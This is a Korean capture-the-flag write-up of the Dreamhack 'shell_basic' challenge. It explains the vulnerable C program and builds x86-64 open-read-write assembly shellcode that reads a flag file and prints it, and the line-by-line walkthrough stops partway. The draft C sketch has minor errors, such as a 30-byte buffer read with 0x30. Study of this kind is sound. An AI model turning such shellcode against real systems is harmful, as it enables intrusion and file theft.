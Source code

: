 <!DOCTYPE html>
<html>
<head>
    <link rel="stylesheet" type="text/css" href="style.css">
</head>
<body>
    <h1> Dreamhack "shell_basic"  Write-UP</h1>
</body>
<br>
<br>
</html>

2024.11.12 풀이

![image](https://github.com/user-attachments/assets/b2354a38-5a4a-4d27-960c-c03eaf700cee)

문제 설명을 보면, flag를 출력하는 쉘 코드를 작성해야 할 것으로 보인다. 
다른 부분은 보지 않고, main 함수 부분만 살펴보면 될 것 같아 보인다. 
flag의 위치는 /home/shell_basic/flag_name_is_loooooong 에 있는 것으로 보인다. 

<br>

</br> 

일단 문제 파일부터 살펴보려고 한다.

![image](https://github.com/user-attachments/assets/6d720fa9-2c2e-44a1-83ef-6855580fcecf)

![image](https://github.com/user-attachments/assets/6469b0ba-052a-4bd9-ba95-e7c4f45d78e1)

위와 같은 C 파일이 있는데, 문제 설명에서 main 함수 부분만 살펴보라고 하였으니, main 함수 부분만 살펴보려고 한다.

int argc는 프로그램 실행 시, 전달되는 인자 개수를 말하는 것으로 보이고, 뒤에 char *argc[]는 각 인자의 문자열 배열을 가리키는 것으로 보인다.

`char *shellcode = mmap(...)` 에서 nmap은 새로운 메모리 영역을 할당하는 함수라고 한다. 또한, NULL은 시스템이 적절한 주소를 선택하도록 하는 것으로 보인다.
여기서 할당된 메모리의 크기는 0x1000이며, `PROT_READ | PROT_WRITE | PROT_EXEC` 부분을 통해, 메모리 영역에 읽기, 쓰기, 실행 권한을 부여하는 것 또한 살펴볼 수 있다.
`MAP_PRIVATE | MAP_ANONYMOUS` 을 보니, 익명의 메모리 매핑으로 파일이 아닌 메모리 공간을 할당할 것으로 보인다. 
그 후, 사용자에게 쉘 코드를 입력받고, 이의 시작 주소를 함수 포인터 sc에 할당하는 것으로 보이며, 쉘 코드를 실행할 것으로 보인다. 

즉, 현재 main 부분만 보았을 때는, 사용자로부터 입력된 데이터인 쉘 코를 읽어 실행 권한이 있는 메모리 영역에 저장하고, 그 메모리를 실행하는 것으로 보인다. 

<br>

</br> 

일단 /home/shell_basic/flag_name_is_loooooong 에서 flag 데이터 값을 불러와서, 저장 후에 화면에 출력하게끔 하는 코드를 작성하면 되지 않을까 생각하여 코드를 임의로 작성해보았다. 

<br>

</br> 

```
char buf[30];

int f = open("/home/shell_basic/flag_name_is_loooooong");

read(f, buf, 0x30);
write(1, buf, 0x30);
```
작성한 코드인데, 살펴보면, char buf[30]; 을 통해 30바이트 크기의 문자 배열 buf를 선언하고,

int f = open("/home/shell_basic/flag_name_is_loooooong", RD_ONLY, NULL); 는 
파일을 읽기 전용으로 열고, 이를 그 파일의 파일 디스크립터를 f에 저장하도록 하는 코드이다. 

    "디스크립터"란 OS가 프로그램과 파일, 네트워크 소켓 등과 같은 자원 사이를 연결해주는 고유한 식별자를 말한다고 한다. 
    파일 디스크립터는 특히 파일이나 입출력 스트림과 같은 자원을 참조할 때 사용하는 정수 값이라고 한다. 

<br>

</br> 
또한, read를 통해 파일 디스크립터 f로부터 최대 48바이트를 읽어 buf에 저장하고, write를 통해, buf의 내용을 48바이트만큼 출력하도록 작성해보았다. 

<br>

</br> 

![image](https://github.com/user-attachments/assets/7b398159-8934-4532-b6ac-227e3c6df14d)

하지만, 위 코드의 내용을 그대로 사용하면 안 되고, 어셈블리어로 변환해서 사용해야 되기 때문에, 이를 변환해보려고 한다.
한 번도 작성해본 적이 없어서 어떤 식으로 적어야 할지 감이 안 잡혀서 드림핵에 있는 예제 코드를 활용하여 작성해보려고 한다.

<br>

</br> 

```
section .text
global _start

_start:
    ; Push the file path "/home/shell_basic/flag_name_is_loooooong" onto the stack (역순으로).
    push 0x0                     ; NULL 바이트
    mov rax, 0x676e6f6f6f6f6f6f  ; "oooooong"
    push rax
    mov rax, 0x6c5f73695f656d61  ; "ame_is_l"
    push rax
    mov rax, 0x6e5f67616c662f63  ; "c/flag_n"
    push rax
    mov rax, 0x697361625f6c6c65  ; "ell_basi"
    push rax
    mov rax, 0x68732f656d6f682f  ; "/home/sh"
    push rax

    ; open("/home/shell_basic/flag_name_is_loooooong", RD_ONLY)
    mov rdi, rsp                 ; 파일 경로 주소 (첫 번째 인자)
    xor rsi, rsi                 ; RD_ONLY (두 번째 인자)
    xor rdx, rdx                 ; NULL (세 번째 인자)
    mov rax, 2                   ; open() 시스템 콜 번호
    syscall                      ; open() 호출

    ; rax에 있는 파일 디스크립터를 rdi로 이동 (read()의 첫 번째 인자)
    mov rdi, rax
    ; 버퍼 주소 설정 (rsp - 0x30, 48바이트를 확보)
    sub rsp, 0x30
    mov rsi, rsp                 ; 버퍼 주소 (두 번째 인자)
    mov rdx, 0x30                ; 읽을 바이트 수 (세 번째 인자)
    mov rax, 0                   ; read() 시스템 콜 번호
    syscall                      ; read() 호출

    ; write(1, buf, 0x30)
    mov rdi, 1                   ; stdout (첫 번째 인자)
    mov rax, 1                   ; write() 시스템 콜 번호
    syscall                      ; write() 호출

    ; 프로그램 종료
    xor rdi, rdi                 ; exit(0) (첫 번째 인자)
    mov rax, 0x3c                ; exit() 시스템 콜 번호
    syscall                      ; exit() 호출

```

위와 같은 형식으로 작성해보았다.

## push 코드 설명

![image](https://github.com/user-attachments/assets/3f026b90-c4f6-41ee-96b6-a86086130b2b)

1. `push 0X0`
  : 문자열의 끝을 나타내는 NULL 바이트를 스택에 푸시하는 부분이라고 한다. 이는 문자열의 끝을 알리기 위해 필요하다고 한다.

2. `mov rax, 0x676e6f6f6f6f6f6f`
  : 레지스터 rax에 flag가 저장된 주소 문자열의 일부인 "oooooong" 을 저장하는 부분이다. 이 문자열은 8바이트로 표현되며, 스택에 푸시될 때 역순으로 저장된다고 한다.

3. `push rax`
  : rax에 저장된 "oooooong" 을 스택에 푸시하여 저장하는 부분이다.

4. `mov rax, 0x6c5f73695f656d61`
  : 문자열 "ame_is_l"을 rax에 저장하는 부분이다.

5. `push rax`
  : rax에 저장된 "ame_is_l"을 스택에 푸시한다,

6. `mov rax, 0x6e5f67616c662f63`
  : 문자열 "c/flag_n"을 rax에 저장한다,

7. `push rax`
  : rax에 저장된 "c/flag_n"을 스택에 푸시한다.

8. `mov rax, 0x697361625f6c6c65`
  : 문자열 "ell_basi"를 rax에 저장한다.

